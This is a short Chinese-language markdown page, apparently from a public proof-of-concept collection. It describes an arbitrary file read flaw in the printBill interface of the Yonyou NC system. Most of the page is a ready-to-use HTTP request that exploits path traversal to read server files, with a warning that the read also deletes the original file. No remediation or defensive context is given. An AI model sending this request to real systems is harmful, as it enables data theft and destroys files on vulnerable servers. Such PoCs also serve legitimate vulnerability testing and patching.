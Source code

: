 ## 用友NC系统printBill接口存在任意文件读取漏洞

`注意：这个漏洞在读取文件的时候，会将原来的文件删除，谨慎使用。`

## poc
```
GET /portal/pt/printpdf/printBill?pageId=login&filePath=../../startup.bat HTTP/1.1
Host: 192.168.63.129:8088
User-Agent: Mozilla/5.0 (X11; CrOS i686 3912.101.0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/27.0.1453.116 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 68

```

![image](https://github.com/wy876/POC/assets/139549762/af404736-3588-4d7c-a76e-d781fb1d1251)


